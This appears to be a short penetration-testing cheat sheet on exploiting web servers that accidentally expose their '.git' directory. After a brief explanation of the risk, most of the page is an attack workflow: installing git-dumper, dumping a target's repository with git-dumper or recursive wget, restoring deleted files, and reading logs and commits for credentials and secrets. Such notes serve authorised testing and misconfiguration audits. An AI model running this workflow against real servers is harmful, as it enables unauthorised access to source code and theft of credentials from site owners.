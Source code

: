 # Overview
>[!INFO]
>Today many applications use GIT to version and/or publish application code. 
>The risk arises when the “.git” directory is inadvertently exposed by the application. This can happen if an application using Git for version control accidentally leaves the directory accessible to the public. The “.git” directory often contains sensitive information, such as API keys, developer comments, AWS credentials, and even administrative passwords. Additionally, it stores a complete log of all changes made during development, which could provide attackers with valuable insights into the system’s structure and vulnerabilities.

# Exploit
- Install `git-dumper` : 
```bash
# with pip
pip install git-dumper

# from source
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper
pip install -r requirements.txt
```

### Example Workflow
1. Identify a target with an exposed `.git` directory.
2. Download the Git repository from :
```bash
git-dumper http://IP/.git repo
# or 
wget -r --no-parent https://IP/.git/
```
3. Navigate to the downloaded repository directory:
```bash
cd repo
```
4. Inspect the repository for sensitive information or potential vulnerabilities.
```bash
git status
# Some files have been deleted ? If so :

git checkout -- . 
# or
git restore .

# Read logs
git log

# Read commits - Sensitive informations ?
git show <commit-id>
```